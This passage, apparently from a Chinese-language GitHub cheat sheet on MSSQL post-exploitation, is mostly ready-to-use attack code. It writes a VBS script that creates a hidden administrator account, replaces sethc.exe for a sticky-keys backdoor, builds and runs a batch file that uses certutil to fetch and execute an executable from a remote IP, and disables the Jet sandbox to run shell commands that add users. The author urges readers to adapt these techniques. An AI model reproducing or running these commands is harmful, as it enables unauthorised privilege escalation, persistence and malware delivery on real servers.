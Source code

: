    

2. 写入启动项

   ```mssql
   declare @sp_passwordxieo int, @f int, @t int, @ret int
   exec sp_oacreate 'scripting.filesystemobject', @sp_passwordxieo out
   exec sp_oamethod @sp_passwordxieo, 'createtextfile', @f out, 'd:\RECYCLER\1.vbs', 1
   exec @ret = sp_oamethod @f, 'writeline', NULL,'set wsnetwork=CreateObject("WSCRIPT.NETWORK")'
   exec @ret = sp_oamethod @f, 'writeline', NULL,'os="WinNT://"&wsnetwork.ComputerName'
   exec @ret = sp_oamethod @f, 'writeline', NULL,'Set ob=GetObject(os)'
   exec @ret = sp_oamethod @f, 'writeline', NULL,'Set oe=GetObject(os&"/Administrators,group")'
   exec @ret = sp_oamethod @f, 'writeline', NULL,'Set od=ob.Create("user","123$")'
   exec @ret = sp_oamethod @f, 'writeline', NULL,'od.SetPassword "123"'
   exec @ret = sp_oamethod @f, 'writeline', NULL,'od.SetInfo'
   exec @ret = sp_oamethod @f, 'writeline', NULL,'Set of=GetObject(os&"/123$",user)'
   exec @ret = sp_oamethod @f, 'writeline', NULL,'oe.add os&"/123$"';
   ```

   

3. 粘贴键替换

```mssql
declare @o int
exec sp_oacreate 'scripting.filesystemobject', @o out
exec sp_oamethod @o, 'copyfile',null,'c:\windows\explorer.exe' ,'c:\windows\system32\sethc.exe';
declare @o int
exec sp_oacreate 'scripting.filesystemobject', @o out
exec sp_oamethod @o, 'copyfile',null,'c:\windows\system32\sethc.exe' ,'c:\windows\system32\dllcache\sethc.exe';
```

大家可以灵活运用，这里也可以这样玩，把他写成vbs或者其他的来下载文件 ，为什么不直接调用cmd来下载，再2008系统上我是不成功的，但是sp_oacreate可以启动这个文件，所以换个思路

```mssql
declare @sp_passwordxieo int, @f int, @t int, @ret int;
exec sp_oacreate 'scripting.filesystemobject', @sp_passwordxieo out;
exec sp_oamethod @sp_passwordxieo, 'createtextfile', @f out, 'c:\www\1.bat', 1;
exec @ret = sp_oamethod @f, 'writeline', NULL,'@echo off';
exec @ret = sp_oamethod @f, 'writeline', NULL,'start cmd /k "cd c:\www & certutil -urlcache -split -f http://192.168.130.142:80/download/file.exe"';


declare @shell int exec sp_oacreate 'wscript.shell',@shell output exec sp_oamethod @shell,'run',null,'c:\www\1.bat'

declare @shell int exec sp_oacreate 'wscript.shell',@shell output exec sp_oamethod @shell,'run',null,'c:\www\file.exe'
```

当然这里只是一种思路，你完全可以用vbs来下载什么的

#### 3. 沙盒提权

```mssql
1. exec master..xp_regwrite 'HKEY_LOCAL_MACHINE','SOFTWARE\Microsoft\Jet\4.0\Engines','SandBoxMode','REG_DWORD',0;

2. exec master.dbo.xp_regread 'HKEY_LOCAL_MACHINE','SOFTWARE\Microsoft\Jet\4.0\Engines', 'SandBoxMode'

3. Select * From OpenRowSet('Microsoft.Jet.OLEDB.4.0',';Databasec:\windows\system32\ias\ias.mdb','select shell( net user itpro gmasfm /add )');
```

